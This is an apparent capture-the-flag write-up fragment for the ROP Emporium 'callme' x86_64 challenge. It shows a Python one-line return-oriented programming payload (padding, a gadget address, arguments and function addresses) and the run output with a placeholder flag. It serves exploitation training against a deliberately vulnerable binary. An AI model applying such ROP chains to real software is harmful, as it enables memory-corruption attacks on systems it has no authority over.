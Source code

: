 #### Python3 One-Line Exploit
```
python3 -c 'import sys; pop_args=b"\x3c\x09\x40\x00\x00\x00\x00\x00" + b"\xef\xbe\xad\xde\xef\xbe\xad\xde" + b"\xbe\xba\xfe\xca\xbe\xba\xfe\xca" + b"\x0d\xf0\x0d\xd0\x0d\xf0\x0d\xd0"; sys.stdout.buffer.write(b"A"*40 + b"".join([pop_args + func for func in [b"\x20\x07\x40\x00\x00\x00\x00\x00", b"\x40\x07\x40\x00\x00\x00\x00\x00", b"\xf0\x06\x40\x00\x00\x00\x00\x00"]]))'
```

Running this command, I got the output:
```
$ python3 -c 'import sys; pop_args=b"\x3c\x09\x40\x00\x00\x00\x00\x00" + b"\xef\xbe\xad\xde\xef\xbe\xad\xde" + b"\xbe\xba\xfe\xca\xbe\xba\xfe\xca" + b"\x0d\xf0\x0d\xd0\x0d\xf0\x0d\xd0"; sys.stdout.buffer.write(b"A"*40 + b"".join([pop_args + func for func in [b"\x20\x07\x40\x00\x00\x00\x00\x00", b"\x40\x07\x40\x00\x00\x00\x00\x00", b"\xf0\x06\x40\x00\x00\x00\x00\x00"]]))'

callme by ROP Emporium
x86_64

Hope you read the instructions...

> Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
```

**Success!** Both the x86 and x86-64 challenges have been solved!